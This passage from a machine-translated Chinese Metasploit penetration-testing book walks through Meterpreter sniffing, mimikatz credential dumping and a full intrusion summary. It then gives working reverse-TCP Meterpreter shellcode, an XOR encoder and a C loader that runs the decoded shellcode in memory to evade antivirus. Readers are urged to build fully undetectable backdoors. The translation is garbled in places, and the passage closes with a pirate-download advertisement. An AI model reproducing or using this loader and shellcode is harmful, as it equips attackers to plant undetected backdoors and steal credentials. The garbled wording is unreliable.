

为了消除破解密码的麻烦，让我们使用`load mimikatz`命令加载 mimikatz，并使用`kerberos`命令以明文形式转储密码，如前面的屏幕截图所示。

# 使用 Metasploit 嗅探网络

Metasploit 还提供了一个嗅探器插件来对目标进行网络嗅探。让我们按如下方式加载`sniffer`模块：


现在让我们使用`sniffer_interfaces`命令选择一个接口，开始对目标系统进行嗅探：



让我们选择接口 ID`2`在`Intel PRO/100 MT adapter`上开始嗅探，如下图所示：



我们可以看到，我们正在接口`2`上捕获数据，该接口在`sniffer_stats`命令的帮助下开始使用`sniffer_start`命令，后面跟着接口的 ID。现在让我们转储数据，看看是否可以找到一些有趣的信息：


我们将从接口`2`捕获的所有数据转储到`test.pcap`文件中。让我们将其加载到 Wireshark 中：



我们可以看到，我们现在有能力成功地嗅探目标。嗅探器模块通常会生成有用的数据，或者因为大多数 intranet 应用程序在此不使用 HTTPS。如果您在渗透测试的工作时间内继续运行嗅探器，这将是值得的。最后，让我们更新图表视图，如下所示：



# 攻击摘要

总结整个测试，我们执行了以下操作：

1.  `192.168.10.110`上的端口扫描（端口 80 打开）。
2.  端口 80 上的强制目录（找到 WordPress 和 PHP 实用程序）。
3.  利用 PHP 实用工具传送带获得 PHP 流量计访问权限。
4.  已升级到 Windows MeterMeter。
5.  利用漏洞后查明是否存在内部网络。
6.  将路由添加到内部网络（仅限 Metasploit）。
7.  内部网络`172.28.128.0`上的端口扫描。
8.  在`172.28.128.3`上发现 3306（MySQL）和 80（Apache）。
9.  对`192.168.10.110`上运行的 WordPress 域进行指纹识别、访问 MySQL 并获取凭据。
10.  使用`hashcat`破解 WordPress 网站的哈希。
11.  端口 80 上的强制目录（发现了`test`目录）。
12.  设置 socks 服务器，使用`wget`从`test`目录中拉取索引页。
13.  在`test`目录中找到 PHP 实用工具带；利用它。
14.  已升级到 Windows MeterMeter。
15.  使用`getsystem`增加权限。
16.  使用`mimikatz`计算出明文密码。
17.  在目标网络上执行了嗅探。

# 场景 2：你看不到我的仪表

在前面的章节中，我们了解了如何使用 Metasploit 控制各种系统。然而，我们没有考虑的一件重要事情是大多数操作系统上都存在防病毒解决方案。让我们创建一个类型为`windows/meterpreter/reverse_tcp`的后门可执行文件，如下所示：



我们现在可以将此可执行文件与任何漏洞攻击或 office 文档放在一起，也可以将其与任何其他可执行文件绑定，并将其发送到运行 windows 并在其系统上运行 AVG 防病毒解决方案的目标。让我们看看目标执行文件时会发生什么：



我们生成的文件引起了 AVG AntiVirus 的突然警报，并被检测到。让我们在 majyx 扫描仪上扫描我们的`generic.exe`文件，以获得检测率的概述，如下所示：


我们可以看到 44/70 AVs 检测到我们的文件是恶意的。这是相当令人沮丧的，因为作为一名执法人员，你可能只有一次机会在目标处执行文件。

可在[访问 majyx 扫描仪 http://scan.majyx.net/](http://scan.majyx.net/) 。
majyx 扫描仪有 35 个 AV，但有时它会扫描每个 AV 两次，因此有 70 个 AV 条目。将前面的扫描结果视为 22/35，而不是 44/70。

# 使用外壳代码以获得乐趣和利润

我们看到了各种 AV 解决方案的检测率如何影响我们的任务。我们可以使用`meterpreter`的外壳代码方法绕过 AVs。我们不生成可执行文件，而是生成 C 外壳代码，自己编写后门程序的其余部分。让我们按如下方式生成外壳代码：


让我们快速查看外壳代码，如下所示：


# 加密外壳代码

我们可以看到我们已经生成了外壳代码。我们将快速编写一个程序，使用`XOR`对现有外壳代码进行加密，如下所示：

```
#include <Windows.h>
#include <iostream>
#include <iomanip>
#include <conio.h>
unsigned char shellcode[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x05\x68\x2d\x4c\x21\x35\x68\x02"
"\x00\x05\x39\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x61\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83"
"\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a"
"\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57"
"\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x22\x58\x68\x00"
"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68"
"\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\xe9\x71\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc7\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00"
"\x53\xff\xd5";

int main()
  {
    for (unsigned int i = 0; i < sizeof shellcode; ++i)
      {
        if (i % 15 == 0)
          {
            std::cout << "\"\n\"";
          }
        unsigned char val = (unsigned int)shellcode[i] ^ 0xAB;
        std::cout << "\\x" << std::hex << (unsigned int)val;
      }
    _getch();
    return 0;
  }

```

我们可以看到，我们刚刚用`0xAB`对外壳代码进行了 XOR。此程序将生成以下输出：



# 创建解码器可执行文件

让我们使用新生成的外壳代码编写一个程序，该程序将生成一个可执行文件，如下所示：

```
#include <Windows.h>
#include <iostream>
#include <iomanip>
#include <conio.h>
unsigned char encoded[] =
"\x57\x43\x29\xab\xab\xab\xcb\x22\x4e\x9a\x6b\xcf\x20\xfb\x9b"
"\x20\xf9\xa7\x20\xf9\xbf\x20\xd9\x83\xa4\x1c\xe1\x8d\x9a\x54"
"\x7\x97\xca\xd7\xa9\x87\x8b\x6a\x64\xa6\xaa\x6c\x49\x59\xf9"
"\xfc\x20\xf9\xbb\x20\xe1\x97\x20\xe7\xba\xd3\x48\xe3\xaa\x7a"
"\xfa\x20\xf2\x8b\xaa\x78\x20\xe2\xb3\x48\x91\xe2\x20\x9f\x20"
"\xaa\x7d\x9a\x54\x7\x6a\x64\xa6\xaa\x6c\x93\x4b\xde\x5d\xa8"
"\xd6\x53\x90\xd6\x8f\xde\x4f\xf3\x20\xf3\x8f\xaa\x78\xcd\x20"
"\xa7\xe0\x20\xf3\xb7\xaa\x78\x20\xaf\x20\xaa\x7b\x22\xef\x8f"
"\x8f\xf0\xf0\xca\xf2\xf1\xfa\x54\x4b\xf4\xf4\xf1\x20\xb9\x40"
"\x26\xf6\xc3\x98\x99\xab\xab\xc3\xdc\xd8\x99\xf4\xff\xc3\xe7"
"\xdc\x8d\xac\x54\x7e\x13\x3b\xaa\xab\xab\x82\x6f\xff\xfb\xc3"
"\x82\x2b\xc0\xab\x54\x7e\xc1\xae\xc3\x86\xe7\x8a\x9e\xc3\xa9"
"\xab\xae\x92\x22\x4d\xfb\xfb\xfb\xfb\xeb\xfb\xeb\xfb\xc3\x41"
"\xa4\x74\x4b\x54\x7e\x3c\xc1\xbb\xfd\xfc\xc3\x32\xe\xdf\xca"
"\x54\x7e\x2e\x6b\xdf\xa1\x54\xe5\xa3\xde\x47\x43\xca\xab\xab"
"\xab\xc1\xab\xc1\xaf\xfd\xfc\xc3\xa9\x72\x63\xf4\x54\x7e\x28"
"\x53\xab\xd5\x9d\x20\x9d\xc1\xeb\xc3\xab\xbb\xab\xab\xfd\xc1"
"\xab\xc3\xf3\xf\xf8\x4e\x54\x7e\x38\xf8\xc1\xab\xfd\xf8\xfc"
"\xc3\xa9\x72\x63\xf4\x54\x7e\x28\x53\xab\xd6\x89\xf3\xc3\xab"
"\xeb\xab\xab\xc1\xab\xfb\xc3\xa0\x84\xa4\x9b\x54\x7e\xfc\xc3"
"\xde\xc5\xe6\xca\x54\x7e\xf5\xf5\x54\xa7\x8f\x42\xda\x54\x54"
"\x54\xaa\x68\x82\x6d\xde\x6c\x68\x10\x5b\x1e\x9\xfd\xc1\xab"
"\xf8\x54\x7e\xab";

int main()
  {
    void *exec = VirtualAlloc(0, sizeof encoded, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    for (unsigned int i = 0; i < sizeof encoded; ++i)
      {
        unsigned char val = (unsigned int)encoded[i] ^ 0xAB;
        encoded[i] = val;
      }
    memcpy(exec, encoded, sizeof encoded);
    ((void(*)())exec)();
    return 0;
  }

```

前面的代码将使用`XOR`解密例程使用`0xAB`对编码的外壳代码进行解码，并使用`memcpy`函数将外壳代码复制到可执行区域，然后从该区域执行。让我们在 majyx 扫描仪上测试它，如以下屏幕截图所示：



英雄联盟突然，AVs 不再检测到我们的流量计后门是恶意的。让我们尝试在具有 AVG 解决方案的系统上运行可执行文件，如下所示：



哦，太好了！这里也没有发现。让我们看看我们是否有权访问目标：


让我们确认`AVG`是否在系统上运行：


目标上运行大量的`AVG`进程。我们不仅绕过了这个杀毒软件，而且还将检测率从 22/35 降低到了 2/35，这非常令人印象深刻。对源代码稍加修改将生成一个完整的 FUD（完全不可检测）。不过，我将把它作为练习留给您完成。

# 进一步的路线图和总结

在本章中，我们研究了最前沿的现实世界场景，其中不仅仅是利用易受攻击的软件；相反，web 应用程序为我们控制系统让路。我们看到了如何使用外部接口从内部网络扫描和利用目标。我们还了解了如何在 MeterMeter 会话的帮助下使用非 Metasploit 工具扫描内部网络。最后，我们看到了如何使用现有的 MeterMeter 外壳代码来规避 AV 解决方案，这使得我们可以很容易地避开受害者的眼睛。有关硬核开发的进一步阅读，您可以参考我关于 Metasploit 的精通系列书籍*精通 Metasploit*。

您可以进行以下练习，使自己熟悉本章所涵盖的内容：

*   尝试生成 FUD MeterMeter 后门
*   在浏览器中使用 socks 浏览内部网络中的内容
*   尝试构建没有坏字符的外壳代码
*   找出使用反向 TCP 和绑定 TCP 负载之间的区别
*   熟悉各种散列类型

现在，继续在 Metasploit 上练习和磨练你的技能，因为这不是结束，只是开始。

这本书是从 AvaxHome 下载的！

访问我的博客，了解更多新书：

[https://avxhm.se/blogs/AlenMiler](https://tr.im/avaxhome)